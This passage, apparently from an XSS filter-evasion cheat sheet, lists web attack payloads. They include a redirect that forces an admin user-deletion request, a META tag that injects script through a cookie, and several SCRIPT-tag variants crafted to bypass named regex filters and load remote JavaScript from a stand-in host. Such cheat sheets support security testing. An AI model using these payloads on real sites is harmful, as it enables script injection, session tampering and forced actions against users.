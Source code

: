 ```log
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

(Thanks to Timo for part of this)

### Cookie Manipulation

This method is pretty obscure but there are a few examples where `<META` is allowed and it can be used to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc):

```html
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### XSS Using HTML Quote Encapsulation

This attack was originally tested in IE so your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`, do the following:

```html
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

If you are performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` due to a regex filter that does `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (This is an important one, because this regex has been seen in the wild):

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS that evades the same filter: `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`

Generally, we are not discussing mitigation techniques, but the only thing that stops this XSS example is, if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags), use this:

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):


```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
